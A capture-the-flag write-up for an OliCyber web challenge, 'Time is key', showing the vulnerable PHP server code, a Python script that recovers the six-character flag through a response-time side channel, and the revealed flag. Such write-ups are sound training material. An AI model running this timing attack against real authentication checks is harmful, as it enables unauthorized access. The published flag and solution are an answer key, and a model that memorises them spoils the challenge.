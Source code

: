 ## Challenge Name: Time is key
**Category:** Web

**Challenge Description:** 
In this challenge, participants must quickly retrieve the flag from the given website. The flag consists only of lowercase letters and numbers. Additionally, the flag is not in the standard format, so it should be enclosed in `flag{...}`.

Website: [Time is key Challenge](http://time-is-key.challs.olicyber.it)

### Approach

The website tries the flag provided and 'answer' if is the correct flag or not.
This is the code of the server:

**Server Code:**
```php
<?php
    $flag = getenv("flag");

    if (isset($_POST["flag"]) && !is_array($_POST["flag"])){
        $your_flag = $_POST["flag"];
        $flag_len = 6;
        
        if (strlen($your_flag) !== $flag_len){
            die("Sbagliato! :(");
        }

        for ($i = 0; $i < $flag_len; $i++){
            if ($your_flag[$i] !== $flag[$i]){
                die("Sbagliato! :(");
            }
            usleep(1000000);
        }

        die("Che stai aspettando? Invia la flag!");
    }

    
    if (isset($_GET["show_source"])){
        highlight_file("vulnerable.php");
    }
?>
```

Participants need to send requests to the provided website and analyze the response times to infer each character of the flag. The provided Python script iterates through each position of the flag and tries all printable characters for each position. If the response time exceeds a certain threshold, the character is added to the flag. This process continues until the full flag is obtained.

**Solution [here](/olicyber-training/web/Time-is-key/solve.py):**

```
import requests
import string

url = "http://time-is-key.challs.olicyber.it/index.php"

def infer_flag():
    flag = ""

    print("Starting flag inference process...")

    while len(flag) < 6:
        print(f"Trying characters for position {len(flag) + 1}...")

        found = False
        
        for char in string.printable:
            if char not in string.whitespace:
                payload = {'flag': flag + char + 'a' * (5 - len(flag))}
                response = requests.post(url, data=payload)
                
                if response.elapsed.total_seconds() > 1 + len(flag):
                    flag += char
                    print(f"Found character for position {len(flag)}: {char}")
                    found = True
                    break
                else:
                    print(f"No character found for position {len(flag) + 1}: {char}")
        
        if not found:
            print(f"No valid character found for position {len(flag) + 1}")
            break

    print("Flag inference process completed!")
    return flag

print("Inferred flag:", infer_flag())
```

**Flag:**

```
flag{71m1n6}
```

### Reflections

This challenge emphasizes the importance of response time analysis in web exploitation challenges. It provides practice in crafting efficient scripts to automate the retrieval of sensitive information from web servers.

---
<a href="/olicyber-training/main.md" class="btn">Back to home</a>